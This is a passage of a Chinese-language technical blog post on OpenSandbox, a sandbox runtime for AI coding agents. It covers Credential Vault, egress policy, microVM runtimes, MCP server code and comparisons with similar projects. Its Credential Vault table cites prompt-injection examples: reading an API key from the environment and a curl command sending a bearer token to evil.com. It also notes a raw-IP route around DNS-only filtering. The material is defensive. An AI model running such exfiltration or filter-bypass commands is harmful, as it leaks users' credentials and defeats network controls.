        results = await asyncio.gather(*[run_episode(i) for i in range(100)])
        print(f"Completed {len(results)} episodes")
        # 每个 episode 在独立 PID/mount 命名空间，互不干扰
        # 整个过程只用了 1 个容器 + ~100 个 bash 进程
    finally:
        await sandbox.destroy()

asyncio.run(main())
```

**对比传统 K8s Job 起 100 个 sandbox**：

- **容器开销**：1 个 vs 100 个（节省 99%）
- **调度延迟**：~5s vs ~50s
- **内存峰值**：~500 MB vs ~50 GB
- **适合 scale**：单 sandbox 内部 1000+ session 是常态

### 3.4 机制 4：Credential Vault——**MCP 工具调用的"透明 MITM"**

`docs/guides/credential-vault.md` 描述了一个**对抗 Prompt Injection 的精妙设计**：

> Credential Vault is OpenSandbox's outbound credential broker for sandboxed agents and developer tools. Real credentials are written to the egress sidecar by the host-side SDK, while the sandbox process only receives **fake or empty credential values**. When tools such as Claude Code, Git, curl, package managers, or model API clients make allowed outbound HTTPS requests, the sidecar matches the request against Credential Vault bindings and **injects the required authentication headers on the way out**.



**核心安全保证**：

1. **真 key 不进容器** —— sandbox 内 `env` 拿到的全是 placeholder
2. **文件系统也拿不到** —— vault 在 sidecar 进程的内存里，Unix domain socket 通信
3. **请求路径可审计** —— sidecar 匹配 `(scheme, host, port, method, path)` 5 元组
4. **响应也脱敏** —— vault 返回的 header 被脱敏

**为什么这是 Harness 必备机制**：

| 场景 | 没有 Credential Vault | 有 Credential Vault |
|---|---|---|
| Prompt injection 让 LLM 调 `print(os.environ['OPENAI_API_KEY'])` | **真的泄露 API key** | 只拿到 placeholder `placeholder` |
| LLM 通过 MCP 调 `curl https://evil.com/exfil -H "Authorization: Bearer $TOKEN"` | token 直接外泄 | sidecar 看到 host=evil.com 不在 bindings，**连接被拒** |
| LLM 想用 git push 到 private repo | 必须把 SSH key 拷进容器（高风险） | sidecar 在 TCP 层注入 SSH key，容器里没有 key 文件 |

**先决条件**：`[egress].mode = "dns+nft"`（必须 nft 强制，否则 sandbox 直接用 `getent hosts api.openai.com` 然后用 raw IP 连出去绕过 DNS 拦截）。

### 3.5 机制 5：Secure Container Runtime（gVisor / Kata / Firecracker）

最后一层是**对付容器逃逸**的——这是任何 multi-tenant SaaS 部署必须考虑的：

- **gVisor**：拦截所有 syscall，让 sandbox 内进程只能跟用户态"sentry"交互（Google 开源）
- **Kata Containers**：每个 sandbox 是一个轻量 VM（约 100ms 启动）
- **Firecracker**：microVM（AWS Lambda 用的，约 125ms 启动）

OpenSandbox 在 `docs/guides/secure-container.md` 里把这一层做成 **RuntimeClass 切换**：

```yaml
# K8s manifest 风格
spec:
  template:
    spec:
      runtimeClassName: kata-fc         # 或 gvisor / runsc
```

Harness 用 `ResourceLimits.platform = "linux"` + K8s 集群配 `RuntimeClass` 即可启用——`platform` 字段在 Python SDK 是 `PlatformSpec(os="linux", arch="amd64")`。

**什么时候用 L4**：

| 场景 | L1 够用？ | 需要 L4 |
|---|---|---|
| 个人 Coding Agent 跑在笔记本上 | ✅ | ❌ |
| 企业内 Coding Agent（受控代码库） | ✅ | 可选 |
| 公共 SaaS（如 ChatGPT Canvas） | ❌ | ✅ 必须 |
| RL 训练集群（受控代码） | ✅ | ❌ |
| RL 训练（开放域 swe-bench 评测） | ❌ | ✅ 必须 |

---

## 四、MCP Server 完整链路：把 sandbox 暴露给 Claude Code

最后一节单独拆 MCP Server，因为这是 Harness 接入 OpenSandbox 的**最便利入口**。

源码：`sdks/mcp/sandbox/python/src/opensandbox_mcp/server.py`

```python
def register_tools(
    mcp: FastMCP,
    *,
    prefix: str = "",
    state: ServerState | None = None,
    connection_config: ConnectionConfig | None = None,
) -> ServerState:
    """Register sandbox tools on a FastMCP instance."""
    config = (connection_config or ConnectionConfig()).with_transport_if_missing()
    state = state or ServerState(connection_config=config)
    name_prefix = f"{prefix}_" if prefix else ""

    @dataclass
    class ServerState:
        sandboxes: dict[str, Sandbox] = field(default_factory=dict)
        connection_config: ConnectionConfig = field(default_factory=ConnectionConfig)
        lock: asyncio.Lock = field(default_factory=asyncio.Lock)

        async def add(self, sandbox: Sandbox) -> None:
            async with self.lock:
                self.sandboxes[sandbox.id] = sandbox

        async def get(self, sandbox_id: str) -> Sandbox | None:
            async with self.lock:
                return self.sandboxes.get(sandbox_id)

        async def remove(self, sandbox_id: str) -> Sandbox | None:
            async with self.lock:
                return self.sandboxes.pop(sandbox_id, None)
```

**关键设计**：

- **`ServerState` 单例** —— 一个 MCP Server 实例服务多个 sandbox
- **`asyncio.Lock` 保护** —— 并发 create / get 不会竞争
- **`prefix` 参数** —— 让多个 MCP 进程能挂到同一个 FastMCP（多租户）
- **SDK 是既有对象** —— 直接 `from opensandbox import Sandbox` 复用 Python SDK

**可运行代码 4**：把 OpenSandbox 暴露成 MCP 给 Claude Code

```bash
# 1. 安装
pip install opensandbox-mcp

# 2. 配置 Claude Code (settings.json 或 .mcp.json)
cat > ~/.claude/settings.json <<EOF
{
  "mcpServers": {
    "opensandbox": {
      "command": "opensandbox-mcp",
      "args": ["--domain", "localhost:8080", "--protocol", "http"]
    }
  }
}
EOF

# 3. 启动 server
uvx opensandbox-server

# 4. 在 Claude Code 里现在多了 4 个工具：
#    - sandbox_create    创建沙箱
#    - sandbox_run_command  在沙箱里跑命令
#    - sandbox_upload_file  写文件到沙箱
#    - sandbox_read_file   从沙箱读文件
```

**对 Harness 的意义**：

- Claude Code 的 Sub-Agent 调这些 MCP tool 就自动**物理隔离**了
- 即使 LLM Prompt 被注入，物理沙箱 + egress policy + Credential Vault 还能拦住
- **轻量级** —— Claude Code 不需要 fork OpenSandbox SDK，只要 stdio + JSON-RPC

### 4.1 MCP 启动脚本（可运行代码 5）

`sdk$ sdks/mcp/sandbox/python/src/opensandbox_mcp/__main__.py` 极简：

```python
import argparse
import asyncio
from mcp.server.fastmcp import FastMCP
from opensandbox_mcp.server import register_tools, ServerState


def main():
    parser = argparse.ArgumentParser(description="OpenSandbox MCP server")
    parser.add_argument("--domain", default="localhost:8080")
    parser.add_argument("--protocol", default="http")
    parser.add_argument("--api-key", default=None)
    parser.add_argument("--prefix", default="")
    args = parser.parse_args()

    mcp = FastMCP("opensandbox")
    from opensandbox.config import ConnectionConfig
    config = ConnectionConfig(
        domain=args.domain,
        protocol=args.protocol,
        api_key=args.api_key,
    )
    register_tools(mcp, prefix=args.prefix, connection_config=config)
    mcp.run()    # stdio transport


if __name__ == "__main__":
    main()
```

**std MCP 模式** —— 跟 mcp-gateway / fastmcp 的 stdio 模式一致，零网络端口。

---

## 五、横向对比：3 个同类沙箱项目

OpenSandbox 不是"独家"——它的对比组主要分两类：**类沙箱运行时** vs **类 Agent 隔离框架**。下面挑 3 个有代表性的对比。

### 5.1 对比项目 1：`e2b-dev/E2B`（最直接的竞争对手）

| 维度 | OpenSandbox | E2B |
|---|---|---|
| ⭐ Stars | 12,166 | ~7k |
| 🏛️ CNCF | ✅ | ❌ |
| 🐳 Docker | ✅ | ❌（仅 Firecracker microVM） |
| ☸️ K8s | ✅（CRD + Helm） | ❌（仅 managed cloud） |
| 🌐 Multi-cloud 自部署 | ✅ | ❌（仅 SaaS） |
| 💼 商业托管 | ❌（自托管为主） | ✅（`e2b.dev`） |
| 🔌 MCP 集成 | ✅ 官方 MCP server | ⚠️ 通过第三方 |
| 📜 协议 | OpenAPI 单一真源 | 自定义 |
| 🧩 隔离层级数 | **5 层**（container / execd / bwrap / egress sidecar / 微 VM） | **1 层**（Firecracker only） |
| 🔑 Credential Vault | ✅（MITM） | ❌ |
| 🚧 Egress Policy | ✅ DNS+nft 强制 | ❌ |
| 🫧 同容器多 session | ✅ bwrap | ❌ |

**核心差异**：

E2B 的" **microVM only**"哲学让它的隔离最强但**最不灵活**——你想跑一个 CLI Coding Agent 跟 E2B 跟 Docker 一样设置 mount volume / 挂 host path，E2B 没这能力。OpenSandbox 是**"在 K8s/Docker 里默认比 E2B 弱一点（容器隔离），但配上 gVisor/Kata 后跟 E2B 等价且更灵活"**。

### 5.2 对比项目 2：`daytonaio/daytona`（Dev Environment as Service）

| 维度 | OpenSandbox | Daytona |
|---|---|---|
| ⭐ Stars | 12,166 | ~28k |
| 🎯 定位 | **AI 沙箱运行时**（通用） | **Dev Environment 服务**（聚焦 Coding） |
| 🛠️ 主语言 | Python + Go + TypeScript | Go + TypeScript |
| 🐳 Docker backend | ✅ | ✅ |
| ☸️ K8s backend | ✅（CRD） | ⚠️ 部分支持 |
| 🔌 MCP | ✅ 官方 | ✅ 官方 |
| 🧩 隔离层级 | **5 层** | 主要 L4（gVisor） + L1 |
| 🔒 默认 egress | 可配置 default-deny | 主要默认 allow（不聚焦安全） |
| 🔄 Snapshots | ✅ rootfs + Docker image | ✅ workspace state |
| 🧬 协议 | OpenAPI 5 个 yaml | 自定义 |
| 🎓 学习曲线 | 中（多 surface） | 低（一站式 IDE 集成） |

**核心差异**：

Daytona 是**"给 AI Coding 工具做的 'GitHub Codespaces for AI'"**——把 dev environment 整个抽出云端，AI Agent 拿到的就是个完整 VS Code + terminal。但它**安全模型偏 Open**：默认什么都允许。

OpenSandbox 是反过来——**默认 deny + 显式 allow + 5 层可选隔离**——更适合 multi-tenant SaaS / 金融 / 政务这类**安全优先**场景。

### 5.3 对比项目 3：`kubernetes-sigs/agent-sandbox`（K8s 原生 CRD 沙箱）

| 维度 | OpenSandbox | `agent-sandbox` |
|---|---|---|
| 🏛️ 角色 | 通用沙箱平台 | K8s CRD 规范 |
| 🐳 Docker | ✅ | ❌（仅 K8s） |
| ☸️ K8s | ✅ | ✅（原生） |
| 🧩 隔离层级 | **5 层** | 依赖 RuntimeClass |
| 🔌 自带 SDK | ✅ 5 语言 | ❌（仅 CRD） |
| 📜 协议 OpenAPI | ✅ | ❌（CRD schema） |
| 🫧 同 Pod 多 session | ✅ bwrap | ❌ |
| 🌐 跨云可移植 | ✅（Docker / K8s） | ⚠️ 必须有 K8s |
| 🎓 部署难度 | 低（一个 uvx 启动） | 中（apply CRD + Helm） |
| 🤝 协同 | OpenSandbox 把 `agent-sandbox` 作为 **K8s workload provider 之一** | - |

**核心差异**：

**`kubernetes-sigs/agent-sandbox` 其实不是 OpenSandbox 的竞争对手——它是 OpenSandbox 的一种 backend 实现**。看 `docs/architecture/index.md`：

> Supported providers:
> - `batchsandbox` - the default provider backed by OpenSandbox's Kubernetes controller and `BatchSandbox` CRD.
> - `agent-sandbox` - a provider for `kubernetes-sigs/agent-sandbox`.

也就是说 **OpenSandbox 兼容两套 K8s 实现**：自家 BatchSandbox CRD（高并发 + Pool）+ 上游 `agent-sandbox` CRD（标准化）——这是非常聪明的"既当选手又当裁判"策略。

---

## 六、优缺点：架构简洁性 vs 复杂度

按 harness skill 要求的标准格式：

| 评价维度 | 评价 | 依据 |
|---|---|---|
| ✅ **架构简洁性** | 6 个 surface 切得很正交 | 每个 surface 单一职责，OpenAPI 单一真源 |
| ✅ **可扩展性** | Runtime 后端 / 隔离层级 / 网络策略三层都可插拔 | `[runtime].type` 配置切换 Docker / K8s；RuntimeClass 切换 gVisor / Kata；egress sidecar 配置切换 DNS / DNS+nft |
| ✅ **易用性** | 默认 5 语言 SDK + CLI + MCP | `pip install opensandbox` 即可 |
| ✅ **可观测性** | 完整的 metrics + diagnostics + request_id | `sandbox.metrics.get_metrics()` 拿 CPU/内存；`diagnostics.get_logs()` 拿原始日志 |
| ⚠️ **多语言 SDK 同步成本** | OpenAPI generator 是"必要但不充分" | generator 输出只是骨架，sync/async 版本、生命周期方法还要手写 |
| ⚠️ **CRD 学习曲线** | 自家 BatchSandbox CRD + 上游 agent-sandbox 两套 | K8s 部署要选一个，理解成本较高 |
| ⚠️ **bubblewrap 依赖** | L3 isolation session 必须 host 有 `bwrap` 二进制 | macOS / Windows 上 bwrap 支持不完整（要用 Linux container） |
| ❌ **学习曲线** | 5 层隔离 + 5 个语言 SDK + 3 个 K8s provider | 比 E2B 这种"一个 microVM API"难一个量级 |
| ❌ **Credential Vault 的"必须 nft"限制** | 在老 K8s 集群（nftables kernel module 缺失）上跑不了 | 文档明确写不能跟 Istio/Envoy mesh 共存 |
| ❌ **生态** | 相比 Anthropic / OpenAI 官方 harness 仍是小众 | 大部分 AI Agent 教程默认用 Claude Code / LangChain |

**纵向对比结论**：OpenSandbox 在"**通用 AI 沙箱**"这个 niche 里是 #1——但**不打算变成 Agent 框架**——它的策略是"横向给所有 Harness 当执行层"。

---

## 七、从零搭建启示：我自己复刻时 MVP 是什么？

假设你要 7 天搭一个"OpenSandbox 简化版"，从源码读出来的最重要启示：

### 7.1 必须保留的组件



### 7.2 可以暂时省略的

- K8s Backend（先做 Docker）
- bwrap isolation session（先 1 sandbox = 1 container）
- Credential Vault（先假设 sandbox 自己放真 key）
- Multi-language SDK（先 Python 一份）
- MCP Server（先 stdio 调 SDK）
- Snapshots（rootfs commit + resume 复杂）
- Secure runtime（先不用 gVisor/Kata）

### 7.3 工程化教训（踩坑预警）

| 坑 | 来源 | 解决方案 |
|---|---|---|
| **HTTP/2 在 sandbox 启动并发高时极易触发** | K8s CRD + sandbox 大量并发 | default-deny → 默认 HTTP/1.1 + SDK retry |
| **execd 二进制要先 stage 进 sandbox image** | `Dockerfile.execd` 注入 `execd + bootstrap.sh` | 必须 init container 或 server 端 stage |
| **egress sidecar 必须有 NET_ADMIN + nft module** | K8s 集群旧版镜像缺 nftables | RuntimeClass 配套镜像或者改用 iptables-legacy |
| **.ossfs 挂载需要阿里云 STS credential** | 阿里 OSS 资源 | Credential Vault 通道注入，不放 env |
| **多 SDK 的 sync/async 两套要分别实现** | Python async 是默认，但 sync API 也得有 | `sdks/.../sync/` 子模块单独维护 |
| **endpoint 解析必须分 use_server_proxy=false/true** | K8s 集群外 client 没法直连 sandbox pod IP | `ServerEndpoint(host, port, headers, use_server_proxy)` 打包返回 |
| **fire-and-forget 任务需 strong ref 防 GC** | `lifecycle_metrics.py` 里 `_pending: set` 收集 Task | 参考 OpenSandbox 源码 |

### 7.4 我自己复刻的最小工程路径（7 天）

| Day | 任务 | 输出 |
|---|---|---|
| 1 | 写 Lifecycle OpenAPI spec + FastAPI skeleton | `/v1/sandboxes` POST/GET 工作 |
| 2 | Docker Runtime 实现 | `docker create + start + wait healthy` |
| 3 | execd 最小实现（Gin） | `/command /files` 端点工作 |
| 4 | Python SDK + Health check 轮询 | `await Sandbox.create()` 可用 |
| 5 | Egress sidecar + DNS 拦截 | `iptables -A OUTPUT -d evil.com -j DROP` |
| 6 | SSE stream + 错误传播 | stdout/stderr 实时流回 |
| 7 | MCP server 暴露 | Claude Code 能调 |

---

## 八、总结：Harness Engineering 的"第 7 件套"补全

回到开篇那个反常识结论：

> 当 Claude Code / OpenHands / AutoGen / CrewAI / langgraph 在你电脑上跑命令时，能拦住它作恶的**不是 Rule、不是 Skill、也不是 Hook**——是**沙箱运行时**。

OpenSandbox 是当前 **CNCF Landscape 上唯一的"通用 AI 沙箱运行时"**——不是某个 Agent 框架的附属模块，而是一个**协议 + Server + SDK + Runtime 后端 + 数据面 + 网络安全面**完整成型的横切层。

把这篇文章内容提纯成一句话送给读者：

> **Harness Engineering 的 6 件套（Rule / Skill / Sub-Agent / Workflow / Script / MCP）回答了"AI 应该怎样做事"——但 6 件套里没人回答"AI 做事时怎么不把世界搞坏"。Sandbox Runtime 是补齐这一块的第 7 件套，而 OpenSandbox 是当前这块事实标准的实现。**

### 行动建议

| 你是什么人 | 我建议你做的事 |
|---|---|
| **个人 Harness 开发者** | 把本地 Coding Agent 接入 OpenSandbox（uvx 启动 + `pip install opensandbox`），不再让 agent 直接跑在你 `.ssh/` 旁边 |
| **Multi-agent 平台 owner** | 把所有 Sub-Agent 的 shell 调用收口到 OpenSandbox SDK，配 default-deny + Credential Vault，关掉 prompt injection 偷密钥这条路 |
| **企业 AI SaaS 提供方** | 必须用 OpenSandbox 的 K8s Runtime + gVisor/Kata + deni.always，把 sandbox-to-sandbox 网络隔离做掉——这是攻防两端的基本面 |
| **RL 训练平台** | 用 isolation session 做并发 rollout，节省 100× 调度成本 |
| **安全研究员** | OpenSandbox 的 `dns+nft` 模式 + Credential Vault 是当前对抗 LLM-side-channel 攻击的第一道防线，值得挖 |

**下一篇预告**：`plano` 之后的下一个 Harness 横评目标——可能是 **MCP Gateway 阵营**（microsoft/mcp-gateway vs agentic-community/mcp-gateway-registry vs mark3labs/mcp-go） 的安全/编排对比，敬请期待。

---

## 附录：核心源码链接

为方便你立刻看原文，下面是本文引用的关键文件（全部 Apache-2.0 公开）：

| 主题 | 路径 |
|---|---|
| Sandbox 主类 | `sdks/sandbox/python/src/opensandbox/sandbox.py` |
| Lifecycle 控制面 SDK | `sdks/sandbox/python/src/opensandbox/services/sandbox.py` |
| Egress Policy 模型 | `sdks/sandbox/python/src/opensandbox/models/sandboxes.py` |
| Lifecycle Metrics 上报 | `sdks/sandbox/python/src/opensandbox/internal/lifecycle_metrics.py` |
| MCP Server 实现 | `sdks/mcp/sandbox/python/src/opensandbox_mcp/server.py` |
| Connection 配置 | `sdks/sandbox/python/src/opensandbox/config/connection.py` |
| 常量（端口号） | `sdks/sandbox/python/src/opensandbox/constants.py` |
| 异常体系 | `sdks/sandbox/python/src/opensandbox/exceptions/sandbox.py` |
| 6 层架构总览 | `docs/architecture/index.md` |
| 网络隔离（K8s 视角） | `docs/architecture/network-isolation.md` |
| Isolation Session 指南 | `docs/guides/isolation-sessions.md` |
| Credential Vault 指南 | `docs/guides/credential-vault.md` |
| Secure Runtime 指南 | `docs/guides/secure-container.md` |
| Egress Go 实现 | `components/egress/pkg/policy/always_rules.go` |
| AGENTS.md 路由 | `AGENTS.md` |

> 项目 GitHub：`https://github.com/opensandbox-group/OpenSandbox`
> CNCF Landscape：`https://landscape.cncf.io/?item=orchestration-management--scheduling-orchestration--opensandbox`
